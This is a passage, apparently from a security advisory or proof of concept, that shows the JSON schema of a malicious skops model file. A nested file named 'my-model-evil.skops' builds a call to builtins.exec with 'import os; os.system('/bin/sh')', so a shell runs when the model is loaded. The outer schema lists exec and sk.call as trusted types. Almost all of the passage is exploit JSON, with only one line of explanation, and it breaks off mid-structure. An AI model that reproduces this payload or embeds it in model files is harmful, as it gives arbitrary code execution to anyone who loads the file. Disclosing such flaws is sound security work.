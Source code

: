 ```json
      {
        "__class__": "bytes",
        "__module__": "builtins",
        "__loader__": "BytesNode",
        "file": "my-model-evil.skops",
        "__id__": 6
      },
      {
        "__class__": "list",
        "__module__": "builtins",
        "__loader__": "ListNode",
        "content": [
          {
            "__class__": "str",
            "__module__": "builtins",
            "__loader__": "JsonNode",
            "content": "\"builtins.exec\""
          },
          {
            "__class__": "str",
            "__module__": "builtins",
            "__loader__": "JsonNode",
            "content": "\"sk.call\""
          }
        ]
      }
    ],
    "__id__": 8
  },
  "__id__": 10,
  "protocol": 2,
  "_skops_version": "0.11.0"
}
```

Inside the zip file `model.skops`, there is a file `my-model-evil.skops` with the following `scheme.json`:

```json
{
  "__class__": "call",
  "__module__": "sk",
  "__loader__": "OperatorFuncNode",
  "attrs": {
    "__class__": "tuple",
    "__module__": "builtins",
    "__loader__": "TupleNode",
    "content": [
      {
        "__class__": "exec",
        "__module__": "builtins",
        "__loader__": "TypeNode",
        "__id__": 1
      },
      {
        "__class__": "str",
        "__module__": "builtins",
        "__loader__": "JsonNode",
        "content": "\"import os; os.system('/bin/sh')\"",
        "__id__": 5,
        "is_json": true
      }
    ],
    "__id__": 8
```